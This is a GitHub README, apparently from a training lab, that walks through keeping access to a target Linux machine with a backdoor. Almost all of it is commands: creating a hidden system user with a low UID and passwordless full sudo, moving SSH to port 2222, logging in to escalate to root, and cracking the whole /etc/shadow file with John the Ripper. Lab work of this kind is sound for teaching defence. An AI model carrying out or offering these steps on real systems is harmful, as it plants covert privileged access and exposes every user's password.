 # Advanced_Bash
Accomplishing the goal of maintaining access of a target machine by installing a backdoor.


## Step 1: Shadow People

1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:

**adduser --system --no-create-home sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/a5ca22e065dbd3071b155b1fb557e9ff49bd6103/Images/Step%201%201.jpg)

2. Give your secret user a password:

**passwd sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/a5ca22e065dbd3071b155b1fb557e9ff49bd6103/Images/Step%201%202.jpg)

3. Give your secret user a system UID < 1000:

**usermod -u 50 sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/a5ca22e065dbd3071b155b1fb557e9ff49bd6103/Images/Step%201%203.jpg)

4. Give your secret user the same GID:

**usermod -u 50 -g 50 sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/fee97db46fe2f7011c9efab9fbdb761bf6883380/Images/Step%201%204.jpg)

5. Give your secret user full sudo access without the need for a password:

**sysd ALL=(ALL) NOPASSWD:ALL**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/fee97db46fe2f7011c9efab9fbdb761bf6883380/Images/Step%201%205.jpg)

6. Test that sudo access works without your password:

**sudo -l**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/fee97db46fe2f7011c9efab9fbdb761bf6883380/Images/Step%201%206a.jpg)

**sudo adduser --system --no-create-home test**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/fee97db46fe2f7011c9efab9fbdb761bf6883380/Images/Step%201%206b.jpg)

## Step 2: Smooth Sailing

1. Edit the sshd_config file:

**Port 2222**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/ae429b36a07874e83e0d2a3d031607d192c15fa9/Images/Step%202%201.jpg)

## Step 3: Testing Your Configuration Update

1. Restart the SSH service:

**systemctl reload sshd**

2. Exit the root account:

**exit**

3. SSH to the target machine using your sysd account and port 2222:

**ssh sysd@192.168.6.105 -p 2222**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/ae429b36a07874e83e0d2a3d031607d192c15fa9/Images/Step%203%20123.jpg)

4. Use sudo to switch to the root user:

**sudo su**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/ae429b36a07874e83e0d2a3d031607d192c15fa9/Images/Step%203%204.jpg)

## Step 4: Crack All the Passwords

1. SSH back to the system using your sysd account and port 2222:

**ssh sysd@192.168.6.105 -p 2222**

2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:

**sudo su**
**john /etc/shadow**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/ae429b36a07874e83e0d2a3d031607d192c15fa9/Images/Step%204%202.jpg)

Passwords:

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/ae429b36a07874e83e0d2a3d031607d192c15fa9/Images/Step%204%202b.jpg)
